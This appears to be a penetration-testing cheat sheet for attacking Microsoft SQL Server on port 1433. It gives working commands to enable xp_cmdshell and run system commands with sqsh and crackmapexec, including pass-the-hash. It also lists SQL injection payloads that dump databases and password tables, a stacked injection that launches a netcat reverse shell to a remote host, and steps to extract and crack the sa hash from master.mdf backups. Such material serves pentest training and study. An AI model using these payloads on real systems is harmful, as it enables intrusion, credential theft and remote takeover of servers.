 # PORT 1433/tcp - Microsoft SQL Server

## Introduction

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network.

## RCE With Credentials

### sqsh

```text
sqsh -S <IP-ADDR> -U <user> -P <pass> -D <database>
```

In MSSQL there is a procedure called **xp\_cmdshell** that receives a command from Windows, executes it and return the result as rows of text. Although the most common case is that the user of the application does not have permissions to execute the **xp\_cmdshell** procedure because is disabled by default, it has been seen on several occasions that, due to a misconfiguration, it does have permissions to enable it.

We need to configure `xp_cmdshell`.

```text
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```

Once configured we can execute commands with `sqsh` or `crackmapexec`.

```text
1> xp_cmdshell 'dir c:\';
2> go

crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```

### crackmapexec

We can execute code in a easier way with crackmapexec.

```text
crackmapexec mssql -u sa -p password --local-auth -x 'whoami'
```

## SQL Injection in MSSQL

To understand the vulnerability visit the following page link.

{% page-ref page="../web/sqli.md" %}

Some SQLi payloads are the following \(supposing that the original query return two values\):

```text
' union all select 1,2 -- -

# Current User
' union all select CURRENT_USER, 2 -- -

# Databases
' union all select name, 2 from master..sysdatabases -- -

# Tables from database "music"
' union all select name, 2 from music..sysobjects  WHERE xtype = 'U' -- -

# Columns from "users" table
' union all select name, 2 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users') -- -

# Dump a table
' union all select user, password from users -- -
```

We can also append commands on the query and execute commands with the procedure **xp\_cmdshell.**

```text
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- -
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
'; EXEC xp_cmdshell '\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10 443' -- - 
```

## LFI or File Download to RCE

If we are able to download any file of the system and has the MSSQL port open, we can retrieved the **sa** hash.

We need to download a copy of the master.mdf file located on:

```text
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/DATA/master.mdf
or
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLSERVER/MSSQL/DATA/master.mdf
```

Since the file is running we can not read it, so we need to find a backup. Some backups are available here:

```text
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/Backup/master.mdf
```

Once downloaded we can dump the hashes with [XPN script.](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

{% embed url="https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes" %}

{% hint style="info" %}
Note: The code fails while trying to load OrcaMDF dlls, see the following pull request to fix it.

[https://github.com/xpn/Powershell-PostExploitation/pull/2](https://github.com/xpn/Powershell-PostExploitation/pull/2)
{% endhint %}

_File changed:_

![Tothi pull request.](../.gitbook/assets/image%20%283%29.png)

We just need to import the module and extract the hashes.

```text
Import-Module Get-MDFHashes.psq
Get-MDFHashes -mdf master.mdf
```

![Dumping mdf hashes](../.gitbook/assets/image%20%287%29.png)

We can crack it with Hashcat \(mode 1731\).

```text
hashcat -a 0 -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

Once obtained the credentials we can execute code with `crackmapexec` or `sqsh`.

{% embed url="https://blog.xpnsec.com/extracting-master-mdf-hashes/" %}

## **References**

* [https://www.tarlogic.com/blog/red-team-tales-0x01/\#:~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.](https://www.tarlogic.com/blog/red-team-tales-0x01/#:~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.)
* [https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/](https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)


